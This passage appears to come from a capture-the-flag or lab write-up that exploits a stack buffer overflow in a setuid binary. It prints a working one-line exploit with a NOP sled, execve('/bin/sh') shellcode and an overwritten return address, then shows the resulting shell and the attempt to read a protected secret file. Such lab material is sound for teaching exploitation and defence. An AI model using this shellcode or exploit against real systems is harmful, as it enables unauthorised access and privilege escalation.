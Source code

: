 ```bash
0x7fffffffe2d8:	0x050fff31	0x41414141	0x41414141	0x41414141
0x7fffffffe2e8:	0x42424242	0x00004242	0xffffe3e8	0x00007fff
0x7fffffffe2f8:	0x00000000	0x00000002	0x004005a0	0x00000000
0x7fffffffe308:	0xf7a4302a	0x00007fff	0x00000000	0x00000000
0x7fffffffe318:	0xffffe3e8	0x00007fff	0x00040000	0x00000002
```

You can now just pick any  address as long as its in the NOPS, I'll pick 0x7fffffffe298.

We need to convert it to little endian: 

0x7fffffffe298 becomes 0x98e2ffffff7f and eventually \x98\xe2\xff\xff\xff\x7f

Now let's try to get a shell! We replace the last 6 bytes that were just 6*'B', by this address.

Let's run it outside gdb to be sure we're in the good environment.

```bash
$ ./buffer-overflow $(python -c "print '\x90'*100+'\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A'*12 + '\x98\xe2\xff\xff\xff\x7f'")

Here's a program that echo's out your input
����������������������������������������������������������������������������������������������������j;XH1�I�//bin/shI�APH��RWH��j<XH1�AAAAAAAAAAAA�����
sh-4.2$
```

Yeay ! We're in !

```bash
sh-4.2$ whoami
user1
sh-4.2$ cat secret.txt
cat: secret.txt: Permission denied
```

Aww...As we can see, we're only user1. And we can't access the secret file. Let's look at the permissions.

```bash
$ ls -l
total 20
-rwsrwxr-x 1 user2 user2 8264 Sep  2  2019 buffer-overflow
-rw-rw-r-- 1 user1 user1  285 Sep  2  2019 buffer-overflow.c
-rw------- 1 user2 user2   22 Sep  2  2019 secret.txt
```

Secret.txt can only be read by user 2, ok we knew that. But the buffer-overflow binary has the the setuid bit (the 's' in the permissions), so I expected that dropping a shell would  give me user2's privileges!  It's not the case and I'll explain why.

# 0x4 About Setuid, Setreuid

There are two main reasons why we're not user2:
